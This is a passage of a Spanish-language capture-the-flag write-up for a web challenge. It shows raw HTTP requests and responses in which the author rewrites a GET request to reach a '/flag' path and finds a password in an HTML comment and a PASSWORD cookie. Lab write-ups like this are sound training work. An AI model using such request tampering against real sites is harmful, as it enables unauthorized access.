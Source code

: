 >Response

```http
HTTP/2 302 Found
X-Powered-By: Express
Location: /?count=7
Vary: Accept
Content-Type: text/html; charset=utf-8
X-Cloud-Trace-Context: 675999f39f4c295e3e9dc73b3260bcd5
Date: Sun, 27 Mar 2022 05:26:54 GMT
Server: Google Frontend
Content-Length: 62
Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"

<p>Found. Redirecting to <a href="/?count=7">/?count=7</a></p>
```

Aquí, se me ocurrió modificar el request para que ahora tire el GET hacia `flag?count=7`, con lo que obtuve lo siguiente:
>Request

```http
GET /flag?count=7 HTTP/2
Host: burp-bvel4oasra-uc.a.run.app
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

```

>Response

```http
HTTP/2 200 OK
X-Powered-By: Express
Set-Cookie: PASSWORD=NONE
Content-Type: text/html; charset=utf-8
Etag: W/"53-O2qFcGQIEGc4VTKhC9/vq8ZpUkI"
X-Cloud-Trace-Context: 026aeda6dcdef56f375bdd8a4a6b7fc0;o=1
Date: Sun, 27 Mar 2022 05:48:09 GMT
Server: Google Frontend
Content-Length: 83
Expires: Sun, 27 Mar 2022 05:48:09 GMT
Cache-Control: private
Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000,h3-Q050=":443"; ma=2592000,h3-Q046=":443"; ma=2592000,h3-Q043=":443"; ma=2592000,quic=":443"; ma=2592000; v="46,43"

You must be authenticated to reach this page! <! –– password: "DESSERT" ––>
```
